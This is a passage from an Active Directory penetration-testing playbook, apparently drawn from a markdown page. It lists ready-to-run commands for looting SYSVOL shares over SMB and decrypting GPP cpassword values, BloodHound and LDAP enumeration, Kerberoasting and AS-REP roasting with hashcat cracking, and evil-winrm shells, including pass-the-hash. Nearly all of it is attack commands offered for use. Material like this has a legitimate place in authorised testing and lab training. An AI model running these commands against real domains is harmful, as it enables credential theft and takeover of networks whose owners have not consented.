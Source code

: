 ### 3.2 Common loot via SMB
```bash
# With creds (adjust domain slash escaping):
crackmapexec smb $TARGET -u $USER -p "$PASS" --shares
smbclient //$TARGET/SYSVOL -U $DOMAIN\$USER%$PASS -c 'recurse;prompt off;mget *'
grep -R "cpassword" -n .           # hunt GPP
```

### 3.3 If GPP cpassword found
```bash
gpp-decrypt <cpassword>            # yields plaintext
# Test it across users or target account in XML
```

---

## 4) Authenticated enumeration baseline

### 4.1 BloodHound collection
```bash
bloodhound-python -d $DOMAIN -u $USER -p "$PASS" -ns $TARGET -c All --zip -o bloodhound/
# In UI: run “Shortest Paths to Domain Admins”, “Kerberoastable Users”,
# “Users with Local Admin Rights”, “Map Domain Trusts”.
```

### 4.2 LDAP domain dump
```bash
ldapdomaindump ldap://$TARGET -u "$DOMAIN\$USER" -p "$PASS" -o ldap/
# Open in browser:
firefox ldap/domain_users.html &
```

### 4.3 Kerberoasting (needs any valid user)
```bash
GetUserSPNs.py $DOMAIN/$USER:"$PASS" -dc-ip $TARGET -request -outputfile loot/tgs.hashes
hashcat -m 13100 loot/tgs.hashes /usr/share/wordlists/rockyou.txt --show -o loot/tgs_cracked.txt
```

### 4.4 WinRM shell check
```bash
evil-winrm -i $TARGET -u $USER -p "$PASS"
# Or pass‑the‑hash:
evil-winrm -i $TARGET -u $USER -H "${HASH##*:}"
```

---

## 5) Technique modules — when and how

> Each module states: **Use when**, **Goal**, **Commands**, **Expected**, **Next**.

### 5.1 AS‑REP roasting
- **Use when:** You have a username list. No creds.
- **Goal:** Offline crackable hashes for users with preauth disabled.
- **Cmd:** See §2.4.
- **Expected:** `$krb5asrep$` lines. Crack with mode **18200**.
- **Next:** Use cracked password for LDAP/SMB/WinRM → §4.
